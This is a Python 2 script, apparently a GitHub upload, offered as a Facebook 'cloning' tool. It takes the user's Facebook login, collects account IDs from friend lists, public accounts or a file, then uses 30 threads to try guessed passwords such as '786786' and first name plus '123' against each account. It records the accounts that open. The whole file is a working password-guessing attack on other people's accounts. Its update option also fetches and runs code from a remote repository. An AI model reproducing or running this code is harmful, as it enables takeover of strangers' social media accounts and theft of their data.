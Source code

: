 #!/usr/bin/python2
#coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib
from multiprocessing.pool import ThreadPool
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    os.system('python2 B4.py')

from requests.exceptions import ConnectionError
from mechanize import Browser

#### browser ####
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

#### colours ####
B='\033[1;94m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'

#### exit ####
def exb():
	print (R + 'Exit')
	os.sys.exit()

#### clear ####
def cb():
    os.system('clear')

#### time sleep ####
def t():
    time.sleep(1)
def t1():
    time.sleep(0.01)

#### print std ####
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		t1()

#### token remove ####
def trb():
    os.system('rm -rf token.txt')

##### LOGO #####
logo='''
\033[1;94m ┈┈┈┈╱▔▔▔▔╲┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈╱▔▔▔▔╲┈┈┈┈
\033[1;94m ┈┈┈▕▕B4 M4▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕B4 M4▏▏┈┈┈
\033[1;94m ┈┈┈▕▕▂╱╲▂▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕▂╱╲▂▏▏┈┈┈
\033[1;94m ┈┈┈┈╲┊┊┊┊╱┈┈┈┈\033[1;94mShabirBaloch.\033[1;91m┈┈┈┈╲┊┊┊┊╱┈┈┈┈
\033[1;96m ┈┈┈┈▕╲▂▂╱▏┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈▕╲▂▂╱▏┈┈┈┈
\033[1;96m ╱▔▔▔▔┊┊┊┊▔▔▔▔╲☞☞☞☞☞☞\033[1;91m☜☜☜☜☜╱▔▔▔▔┊┊┊┊▔▔▔▔╲
\033[1;96m................\033[1;93mComrade pathan\033[1;91m...............
\033[1;96m................\033[1;93m✬🄵🄰🄲🄴🄱🄾🄾🄺✬\033[1;91m..............

\033[1;96m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

\033[1;91m☞ Auther     : B4_BALOCH_M4_MASTER
\033[1;92m☞ WhatsApp   : 03139715132
\033[1;95m☞ YouTube    : https://youtube.com/channel/UCRnpWUOCz3Sb1RAX3GK4r0A

\033[1;93m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
                                '''
back=0
successfull=[]
checkpoint=[]
oks=[]
cps=[]
id=[]

#### login ####
def login():
	cb()
	try:
		tb=open('token.txt', 'r')
		menu() 
	except (KeyError,IOError):
		cb()
		print (logo)
		print (R + '◈━━━━▷' + S + ' Login With ✬🄵🄰🄲🄴🄱🄾🄾🄺✬ ' + R + '◁━━━━◈')
		print
		id=raw_input(S + '[☆] ' + S + 'Email: ' + G +'')
		pwd=getpass.getpass(S + '[♡] ' + R + 'Password : ')
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pwd)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		z=json.load(data)
		if 'access_token' in z:
		    st = open("token.txt", "w")
		    st.write(z["access_token"])
		    st.close()
		    print (S + '[☆]' + Y + ' Login successfull 100% ✓')
		    os.system('xdg-open https://youtube.com/channel/UCRnpWUOCz3Sb1RAX3GK4r0A')
		    menu()
		else:
		    if "www.facebook.com" in z["error_msg"]:
		        print (R + 'Account has a checkpoint !')
		        t()
		        login()
		    else:
		        print (R + 'number/user id/ password is wrong !')
		        trb()
		        t()
		        login()
def menu():
	cb()
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + 'Token Invalid !')
		trb()
		t()
		login()
	try:
		otw=requests.get('https://graph.facebook.com/me?access_token='+tb)
		a=json.loads(otw.text)
	except KeyError:
		print (G + 'Account has a checkpoint !')
		trb()
		t()
		login()
	except requests.exceptions.ConnectionError:
		print (W + 'No internet connection !')
		t()
		exb()
	cb()
	print (logo)
	print (S + '[☆] ' + G + 'ID Name: ' + R + a['name'])
	print (S + '[☆] ' + G + 'User ID: ' + R + a['id'])
	print
	print (S + 50*'-')
	print
	print (S + '[' + P + '☞1' + S + ']' + S + ' Fast Cloning New Update')
	print (S + '[' + P + '☞2' + S + ']' + S + ' Update B4_BALOCH Tool')
	print (S + '[' + P + '☞3' + S + ']' + S + ' B4_BALOCH WhatsApp Group')
	print (S + '[' + Y + '☞4' + S + ']' + G + ' Log Out')
	print (S + '[' + Y + '☞0' + S + ']' + R + ' Exit')
	print
	print (S + 50*'-')
	print
	mb()


def mb():
	bm=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bm =='':
		print (R + 'Select a valid option !')
		mb()
	elif bm =='1':
		pak()
	elif bm =='2':
	    os.system('rm -rf $HOME/B4_BALOCH')
	    os.system('cd $HOME && git clone https://github.com/shabirbaloch125/Baloch')
	    cb()
	    print (logo)
	    psb('☆10%')
	    psb('☆☆20%')
	    psb('☆☆☆30%')
	    psb('☆☆☆☆40%')
	    psb('☆☆☆☆☆50%')
	    psb('☆☆☆☆☆☆60%')
	    psb('☆☆☆☆☆☆☆70%')
	    psb('☆☆☆☆☆☆☆☆80%')
	    psb('☆☆☆☆☆☆☆☆☆90%')
	    psb('☆☆☆☆☆☆☆☆☆☆100%')
	    psb('Frends login new Account✓')
	    psb('WhatsApp Num 03232132362✓')
	    psb('WellCome To B4_BALOCH')
	    psb('Congratulations B4_BALOCH Tool Has Been Updated Successfully')
	    psb('🔓User Name☆ sherani✓')
	    psb('🔓Password ☆ pathan✓')
	    psb('Subscrib My Youtube Channel B4 BALOCH M4 MASTER✓')
	    psb('Please Login Again')
	    time.sleep(2)
	    os.system('cd $HOME/B4_BALOCH && python2 B4.py')
	elif bm =='3':
	    os.system('xdg-open https://chat.whatsapp.com/BcmyQPBz6lz3t6oVN8wLoi')
	    menu()
	elif bm =='4':
		psb('Token Has Been Removed')
		trb()
		t()
		exb()
	elif bm =='0':
	    exb()
	else:
		print (R+'Fill in correctly !')
		mb()


def pak():
	global tb
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + ' Invalid Token !')
		trb()
		t()
		login()
	cb()
	print (logo)
	print (S + '[' + P + '☞1' + S + ']' + P + ' Clone With Friend List')
	print (S + '[' + P + '☞2' + S + ']' + P + ' Clone From Public Account')
	print (S + '[' + Y + '☞3' + S + ']' + Y + ' Clone From File')
	print (S + '[' + R + '☞0' + S + ']' + R + ' Back')
	print
	print (S + 50*'-')
	print
	pb()

def pb():
	bp=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bp =='':
		print (R + 'Select a valid option !')
		pb()
	elif bp =='1':
		cb()
		print (logo)
		r=requests.get('https://graph.facebook.com/me/friends?access_token='+tb)
		z=json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif bp=='2':
		cb()
		print (logo)
		idt=raw_input(S + '[☆] ' + G + 'Put Public User ID/User Name: ' + W + '')
		cb()
		print (logo)
		try:
			jok=requests.get('https://graph.facebook.com/'+idt+'?access_token='+tb)
			op=json.loads(jok.text)
			psb(S + '[☆]' + G + ' Account  Name: ' + W + op['name'])
		except KeyError:
			print (R + ' ID not found !')
			raw_input(R + ' Back')
			pak()
		r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb)
		z=json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif bp =='3':
		cb()
		print (logo)
		try:
			idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print (R + ' File Not Fount !')
			raw_input(R + ' Back')
			pak()
	elif bp =='0':
		menu()
	else:
		print (R + ' Select a valid option !')
		pb()
	print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id)))
	psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z')
	print
	print (S + 50*'-')
	print
	def main(arg):
		global cps, oks
		user=arg
		try:
			h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)
			j=json.loads(h.text)
			ps1=('786786')
			dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			k=json.load(dt)
			if 'www.facebook.com' in k['error_msg']:
			    print(S+'[CP] ♡ '+user+' ♡ '+ps1)
			    cps.append(user+ps1)
			else:
			    if 'access_token' in k:
			        print (G+'[OK] ♡ '+user+' ♡ '+ps1)
			        oks.append(user+ps1)
			    else:
			        ps2=(j['first_name']+'123')
			        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			        k=json.load(dt)
			        if 'www.facebook.com' in k['error_msg']:
			            print(S+'[CP] ♡ '+user+' ♡ '+ps2)
			            cps.append(user+ps2)
			        else:
			            if 'access_token' in k:
			                print(G+'[OK] ♡ '+user+' ♡ '+ps2)
			                oks.append(user+ps2)
			            else:
			                ps3=(j['first_name']+'786')
			                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                k=json.load(dt)
			                if 'www.facebook.com' in k['error_msg']:
			                    print(S+'[CP] ♡ '+user+' ♡ '+ps3)
			                    cps.append(user+ps3)
			                else:
			                    if 'access_token' in k:
			                        print(G+'[OK] ♡ '+user+' ♡ '+ps3)
			                        oks.append(user+ps3)
			                    else:
			                        ps4=(j['first_name']+'12345')
			                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                        k=json.load(dt)
			                        if 'www.facebook.com' in k['error_msg']:
			                            print(S+'[CP] ♡ '+user+' ♡ '+ps4)
			                            cps.append(user+ps4)
			                        else:
			                            if 'access_token' in k:
			                                print(G+'[OK] ♡ '+user+' ♡ '+ps4)
			                                oks.append(user+ps4)
			                            else:
			                                ps5=('Pakistan')
			                                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                k=json.load(dt)
			                                if 'www.facebook.com' in k['error_msg']:
			                                    print(S+'[CP] ♡ '+user+' ♡ '+ps5)
			                                    cps.append(user+ps5)
			                                else:
			                                    if 'access_token' in k:
			                                        print(G+'[OK] ♡ '+user+' ♡ '+ps5)
			                                        oks.append(user+ps5)
			                                    else:
			                                        ps6=(j['first_name']+'khan')
			                                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                        k=json.load(dt)
			                                        if 'www.facebook.com' in k['error_msg']:
			                                            print(S+'[CP] ♡ '+user+' ♡ '+ps6)
			                                            cps.append(user+ps6)
			                                        else:
			                                            if 'access_token' in k:
			                                                print(G+'[OK] ♡ '+user+' ♡ '+ps6)
			                                                oks.append(user+ps6)
		except:
			pass
	p=ThreadPool(30)
	p.map(main, id)
	print
	print(S+50*'-')
	print
	print(S+'Process has been completed CP ID Open After 7 Days ')
	print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))
	print(S+'BlackMafia')     
	print
	raw_input(R + 'Back')
	os.system('python2 B4.py')
if __name__=='__main__':
    login()

